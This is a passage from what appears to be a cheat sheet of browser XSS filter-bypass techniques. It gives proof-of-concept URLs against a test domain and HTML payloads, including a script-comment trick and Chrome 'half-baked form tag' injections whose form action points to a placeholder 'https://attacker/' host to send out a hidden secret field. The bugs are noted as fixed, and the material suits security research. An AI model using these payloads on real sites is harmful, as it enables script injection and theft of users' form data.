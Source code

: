PoCs:

[https://vulnerabledoma.in/bypass/text?type=9&q=%3Cscript%3Ealert(1)%0A--%3E](https://vulnerabledoma.in/bypass/text?type%3D9%26q%3D%253Cscript%253Ealert(1)%250A--%253E)

```html
<div><script>alert(1)
--></div><script src=/test.js></script>
```

## Use of half-baked form tags (getting information only) (Chrome)

supplement:

Fixed in Chrome 62.

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. New form tags can be placed where existing form content containing sensitive information can be submitted

Reference URL:

- [https://bugs.chromium.org/p/chromium/issues/detail?id=719092](https://bugs.chromium.org/p/chromium/issues/detail?id%3D719092)

PoCs:

(if you are inside a form) [https://vulnerabledoma.in/bypass/form?q=%22%3E%3C/form%3E%3Cform%20action=https://attacker/](https://vulnerabledoma.in/bypass/form?q%3D%2522%253E%253C/form%253E%253Cform%2520action%3Dhttps://attacker/)

```html
<form action="form">
<input type="hidden" name="q" value=""></form><form action=https://attacker/">
<input type="hidden" name="secret" value="a09d3ef0">
<input type="submit">
</form>
```

(when outside the form) [https://vulnerabledoma.in/bypass/form2?q=%3Cbutton%20form=f%3ECLICK%3Cform%20id=f%20action=https://attacker/](https://vulnerabledoma.in/bypass/form2?q%3D%253Cbutton%2520form%3Df%253ECLICK%253Cform%2520id%3Df%2520action%3Dhttps://attacker/)

```html
<div><button form=f>CLICK<form id=f action=https://attacker/</div>
<form action="form2">
<input type="hidden" name="secret" value="a09d3ef0">
</form>
```

## `<object>`Using with `<param name=url/code>`(Chrome only)

supplement:
